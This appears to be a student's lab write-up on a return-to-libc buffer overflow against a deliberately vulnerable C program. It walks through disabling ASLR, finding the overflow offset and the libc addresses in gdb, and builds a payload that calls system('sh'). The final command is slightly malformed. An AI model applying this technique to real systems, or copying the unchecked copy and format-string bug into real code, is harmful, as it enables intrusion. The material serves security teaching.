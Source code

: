 ##vulnerable.c
```
#include <stdio.h>

int main(int argc, char *argv[]){
	char buf[265];
	memcpy(buf, argv[1], strlen(argv[1]));
	printf(buf);
}
```
Ensure you've disabled ASLR `echo 0 | sudo tee /proc/sys/kernel/randomize_va_space`

Compile vulnerable.c `gcc -fno-stack-protector vulnerable.c -o vulnerable`

###1. Pinpoint Return Address

Since this is a simple program we can use the following manual approach. Fire up gdb `gdb vulnerable`

Lets go ahead and overflow `buf`

`(gdb) r $(python -c 'print "A"*269')`

Output:

```
Starting program: /home/amilkov3/Dropbox/CS6035/Project1/vulnerable $(python -c 'print "A"*269')

Program received signal SIGSEGV, Segmentation fault.
0xb7e2fa41 in __libc_start_main (main=0x804847d <main>, argc=2, 
    argv=0xbffff034, init=0x80484d0 </__libc_csu_init>, 
    fini=0x8048540 <__libc_csu_fini>, rtld_fini=0xb7fed180 <_dl_fini>, 
    stack_end=0xbffff02c) at libc-start.c:274
274	libc-start.c: No such file or directory.
```
Keep adding A's until you fill the return address entirely with them like so:

`(gdb) r $(python -c 'print "A"*272')`

```
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/amilkov3/Dropbox/CS6035/Project1/vulnerable $(python -c 'print "A"*272')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

0x41414141 tells us we've filled the entire return address with the hexadecimal representation of A: 0x41. So essentially now we know we need 272 bytes to fill the return address. Let's get on to writing our shellcode



###2. Return to libc syscall

Since we have a non-executable stack, we will still overwrite the return address except with one of the functions located in libc, passing to it the necessary arguments, and execute it. We bypass stack protection because these functions are not located on the stack

| Before overflow |
|-----------------|
| arg2            (higher addresses)|	
| arg1            |
| return address  |
| ebp             |
| buf[]           (lower addresses\)|

| After overflow       |
|----------------------|
| 'sh' address         |
| fake_return          |
| EBP: system_address |
| buf[]                |

Already know we need 272 bytes to overwrite the return address so lets fire up gdb to find out the address of the libc `system()` call and an address for string 'sh': `gdb vulnerable`

<pre>
(gdb) b main
Breakpoint 1 at 0x8048489: file vulnerable.c, line 5.
(gdb) r
Starting program: /home/amilkov3/Dropbox/CS6035/Project1/Extraneous/vulnerable 

Breakpoint 1, main (argc=1, argv=0xbffff124) at vulnerable.c:5
5		memcpy(buf, argv[1], strlen(argv[1]));
(gdb) p system
$1 = {<text variable, no debug info>} <b>0xb7e56190</b> <__libc_system>
(gdb) info files
Symbols from "/home/amilkov3/Dropbox/CS6035/Project1/Extraneous/vulnerable".
Unix child process:
	Using the running image of child process 2373.
	While running this, GDB does not access memory from...
Local exec file:
	`/home/amilkov3/Dropbox/CS6035/Project1/Extraneous/vulnerable', 
        file type elf32-i386.
	Entry point: 0x8048380
	0x08048154 - 0x08048167 is .interp
	0x08048168 - 0x08048188 is .note.ABI-tag
	0x08048188 - 0x080481ac is .note.gnu.build-id
	0x080481ac - 0x080481cc is .gnu.hash
	0x080481cc - 0x0804823c is .dynsym
	0x0804823c - 0x08048296 is .dynstr
	0x08048296 - 0x080482a4 is .gnu.version
	0x080482a4 - 0x080482c4 is .gnu.version_r
	0x080482c4 - 0x080482cc is .rel.dyn
	0x080482cc - 0x080482f4 is .rel.plt
	0x080482f4 - 0x08048317 is .init
	0x08048320 - 0x08048380 is .plt
	0x08048380 - 0x08048542 is .text
	0x08048544 - 0x08048558 is .fini
	0x08048558 - 0x08048560 is .rodata
	0x08048560 - 0x0804858c is .eh_frame_hdr
	0x0804858c - 0x0804863c is .eh_frame
	0x08049f08 - 0x08049f0c is .init_array
	0x08049f0c - 0x08049f10 is .fini_array
---Type <return> to continue, or q <return> to quit---
	0x08049f10 - 0x08049f14 is .jcr
	0x08049f14 - 0x08049ffc is .dynamic
	0x08049ffc - 0x0804a000 is .got
	0x0804a000 - 0x0804a020 is .got.plt
	0x0804a020 - 0x0804a028 is .data
	0x0804a028 - 0x0804a02c is .bss
	0xb7fde114 - 0xb7fde138 is .note.gnu.build-id in /lib/ld-linux.so.2
	0xb7fde138 - 0xb7fde1f8 is .hash in /lib/ld-linux.so.2
	0xb7fde1f8 - 0xb7fde2dc is .gnu.hash in /lib/ld-linux.so.2
	0xb7fde2dc - 0xb7fde4ac is .dynsym in /lib/ld-linux.so.2
	0xb7fde4ac - 0xb7fde642 is .dynstr in /lib/ld-linux.so.2
	0xb7fde642 - 0xb7fde67c is .gnu.version in /lib/ld-linux.so.2
	0xb7fde67c - 0xb7fde744 is .gnu.version_d in /lib/ld-linux.so.2
	0xb7fde744 - 0xb7fde7b4 is .rel.dyn in /lib/ld-linux.so.2
	0xb7fde7b4 - 0xb7fde7e4 is .rel.plt in /lib/ld-linux.so.2
	0xb7fde7f0 - 0xb7fde860 is .plt in /lib/ld-linux.so.2
	0xb7fde860 - 0xb7ff67ac is .text in /lib/ld-linux.so.2
	0xb7ff67c0 - 0xb7ffa7a0 is .rodata in /lib/ld-linux.so.2
	0xb7ffa7a0 - 0xb7ffae24 is .eh_frame_hdr in /lib/ld-linux.so.2
	0xb7ffae24 - 0xb7ffd71c is .eh_frame in /lib/ld-linux.so.2
	0xb7ffecc0 - 0xb7ffef34 is .data.rel.ro in /lib/ld-linux.so.2
	0xb7ffef34 - 0xb7ffefec is .dynamic in /lib/ld-linux.so.2
	0xb7ffefec - 0xb7ffeff8 is .got in /lib/ld-linux.so.2
---Type <return> to continue, or q <return> to quit---
	0xb7fff000 - 0xb7fff024 is .got.plt in /lib/ld-linux.so.2
	0xb7fff040 - 0xb7fff878 is .data in /lib/ld-linux.so.2
	0xb7fff878 - 0xb7fff938 is .bss in /lib/ld-linux.so.2
	0xb7e16174 - 0xb7e16198 is .note.gnu.build-id in /lib/i386-linux-gnu/libc.so.6
	0xb7e16198 - 0xb7e161b8 is .note.ABI-tag in /lib/i386-linux-gnu/libc.so.6
	0xb7e161b8 - 0xb7e19ec8 is .gnu.hash in /lib/i386-linux-gnu/libc.so.6
	0xb7e19ec8 - 0xb7e23438 is .dynsym in /lib/i386-linux-gnu/libc.so.6
	0xb7e23438 - 0xb7e2915e is .dynstr in /lib/i386-linux-gnu/libc.so.6
	0xb7e2915e - 0xb7e2a40c is .gnu.version in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a40c - 0xb7e2a898 is .gnu.version_d in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a898 - 0xb7e2a8d8 is .gnu.version_r in /lib/i386-linux-gnu/libc.so.6
	0xb7e2a8d8 - 0xb7e2d2e8 is .rel.dyn in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d2e8 - 0xb7e2d348 is .rel.plt in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d350 - 0xb7e2d420 is .plt in /lib/i386-linux-gnu/libc.so.6
	0xb7e2d420 - 0xb7f5eb6e is .text in /lib/i386-linux-gnu/libc.so.6
	0xb7f5eb70 - 0xb7f5fafb is __libc_freeres_fn in /lib/i386-linux-gnu/libc.so.6
	0xb7f5fb00 - 0xb7f5fcfe is __libc_thread_freeres_fn in /lib/i386-linux-g---Type <return> to continue, or q <return> to quit---
nu/libc.so.6
	0xb7f5fd00 - 0xb7f81754 is .rodata in /lib/i386-linux-gnu/libc.so.6
	0xb7f81754 - 0xb7f81767 is .interp in /lib/i386-linux-gnu/libc.so.6
	0xb7f81768 - 0xb7f88c0c is .eh_frame_hdr in /lib/i386-linux-gnu/libc.so.6
	0xb7f88c0c - 0xb7fb9f68 is .eh_frame in /lib/i386-linux-gnu/libc.so.6
	0xb7fb9f68 - 0xb7fba3c6 is .gcc_except_table in /lib/i386-linux-gnu/libc.so.6
	0xb7fba3c8 - 0xb7fbd928 is .hash in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1d4 - 0xb7fbe1dc is .tdata in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1dc - 0xb7fbe220 is .tbss in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1dc - 0xb7fbe1e8 is .init_array in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe1e8 - 0xb7fbe260 is __libc_subfreeres in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe260 - 0xb7fbe264 is __libc_atexit in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe264 - 0xb7fbe274 is __libc_thread_subfreeres in /lib/i386-linux-gnu/libc.so.6
	0xb7fbe280 - 0xb7fbfda8 is .data.rel.ro in /lib/i386-linux-gnu/libc.so.6
	0xb7fbfda8 - 0xb7fbfe98 is .dynamic in /lib/i386-linux-gnu/libc.so.6
	0xb7fbfe98 - 0xb7fbfff4 is .got in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0000 - 0xb7fc003c is .got.plt in /lib/i386-linux-gnu/libc.so.6
---Type <return> to continue, or q <return> to quit---
	0xb7fc0040 - 0xb7fc0ebc is .data in /lib/i386-linux-gnu/libc.so.6
	0xb7fc0ec0 - 0xb7fc3a7c is .bss in /lib/i386-linux-gnu/libc.so.6
(gdb) find 0xb7ff67c0,0xb7ffa7a0,'sh'
Invalid character constant.
(gdb) find 0xb7ff67c0,0xb7ffa7a0,"sh"
0xb7ff7e5c <__PRETTY_FUNCTION__.9595+12>
1 pattern found.
(gdb) x/s 0xb7ff7e5c
<b>0xb7ff7e5c</b> <__PRETTY_FUNCTION__.9595+12>:	"sh"
</pre>

The addresses in bold are the ones we are interested in. Namely on this example machine:

0xb7e56190 is the address of system()

0xb7ff7e5c is the address of 'sh'

##3b. Writing the exploit

All we need to do now is append these 2 addresses to the end of our string of A's in order to call essentially call `system('sh')` and spawn a shell

Here's what little math we need:

- Smashing EIP: 272 - 4 = 268 'A's needed
- Append system() -> "\x90\x61\xe5\xb7" * 2 since we need to fill the return address as well
- Append 'sh' -> "\x5c\x7e\xff\xb7"

On the command line:

`comp-name # ./vulnerable $(python -c 'A'*268 + "\x90\x61\xe5\xb7\x90\x61\xe5\xb7\x5c\x7e\xff\xb7"`

Verify that you spawned the shell

##4b. Exiting cleanly